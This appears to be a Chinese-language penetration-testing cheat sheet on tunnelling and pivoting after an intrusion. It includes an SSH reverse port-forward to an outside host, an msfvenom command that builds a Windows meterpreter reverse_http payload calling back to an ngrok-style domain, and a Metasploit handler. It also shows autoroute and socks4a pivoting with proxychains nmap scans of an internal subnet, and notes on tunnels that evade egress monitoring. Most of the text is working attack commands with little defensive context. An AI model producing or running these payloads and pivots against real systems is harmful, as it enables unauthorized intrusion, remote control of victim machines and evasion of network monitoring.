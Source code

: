 ### 代理隧道

#### 反弹shell

在面试题里大部分记过了，此外还有ssh反向连接

~~~
ssh -f -N -R 10000:localhost:22 lyb@3322.org
~~~

10000是主机B上的本地连接端口， 22是主机B上远程连接的那个端口，lyb@3322.org是对方的地址，主机b运行

~~~
ssh lyb@localhost -p 10000
~~~



#### 端口转发

###### lcx（经典）

###### FPipe

###### Ssocks

#### 正向代理和反向代理

###### frp

https://github.com/fatedier/frp/

可用于内网穿透的高性能的反向代理应用，，支持 tcp, udp 协议，为 http 和 https 应用协议提供了额外的能力，且尝试性支持了点对点穿透

#### web代理

###### reGeorg

[![oIXxU0.png](https://s1.ax1x.com/2021/12/10/oIXxU0.png)](https://imgtu.com/i/oIXxU0)

![](https://s4.ax1x.com/2022/01/17/7Uti6O.jpg)

代理是实现内网之间的通信；隧道是实现防火墙绕过，流量监控

#### ngrok

![](https://s4.ax1x.com/2022/01/17/7UN2ZQ.jpg)

~~~
msfvenom -p windows/meterpreter/reverse_http lhost=xiaodisec.free.idcfengye.com lport=80 -f exe -o
test.exe
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 192.168.76.132
set lport 4444
exploit
~~~



~~~
查看路由地址：run autoroute -p
添加路由地址：run autoroute -s 192.168.22.0/24
开启本地代理：
use auxiliary/server/socks4a
set srvport 2222
exploit

配置 proxychains 后调用工具探针 Target2
/etc/proxychains.conf
socks4 192.168.76.132 2222
proxychains4 nmap -sT -Pn 192.168.22.0/24 -p80
-Pn：扫描主机检测其是否受到数据包过滤软件或防火墙的保护。
-sT：扫描 TCP 数据包已建立的连接 connect
windows：
利用代理工具 Proxifier 或 SocksCap64 载入代理进行进程访问测试
~~~



~~~
网络层：IPv6 隧道、ICMP 隧道
传输层：TCP 隧道、UDP 隧道、常规端口转发
应用层：SSH 隧道、HTTP/S 隧道、DNS 隧道
~~~

CS、MSF 无法上线，数据传输不稳定无回显，出口数据被监控，网络通信存在问题等





























